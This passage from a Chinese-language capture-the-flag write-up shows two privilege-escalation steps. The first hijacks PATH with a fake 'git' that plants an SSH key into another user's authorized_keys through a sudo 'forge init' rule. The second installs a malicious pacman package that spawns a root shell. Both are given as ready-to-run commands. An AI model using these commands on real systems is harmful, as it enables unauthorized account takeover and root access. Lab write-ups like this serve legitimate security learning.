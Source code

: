 这里发现初始化项目的时候还会调用 git，同时 sudo -l 也没有对环境变量进行重置，因此可以劫持 git

```Plain Text
cd /tmp; ssh-keygen -t rsa -q -P "" -f ~/.ssh/id_rsa; echo '#!/bin/bash' > /tmp/git; echo "mkdir ~/.ssh" >> /tmp/git; echo "echo `cat ~/.ssh/id_rsa.pub` >> ~/.ssh/authorized_keys" >> /tmp/git; chmod +x /tmp/git; export PATH=/tmp:$PATH; sudo -u paul /home/paul/.foundry/bin/forge init /tmp/test
ssh paul@127.0.0.1
```

![image-20241126232605439.png](assets/0635-BlockBlock/image-20241126232605439.png)

## Shell as Root

有 pacman 的 sudo 权限，可以先打包一个恶意的 pacman 安装包，在安装过程中执行命令。

> [https://www.ovios.org/pkgbuild-example](https://www.ovios.org/pkgbuild-example)

```Plain Text
sudo pacman -R pwned --noconfirm
cd; rm -rf /tmp/good; mkdir /tmp/good; cd /tmp/good
cat << EOF > PKGBUILD
pkgname=pwned
pkgver=1.2
pkgrel=3
arch=(x86_64)
package() {
	bash
}
EOF
makepkg -s
sudo pacman -U pwned-1.2-3-x86_64.pkg.tar.zst --noconfirm
```
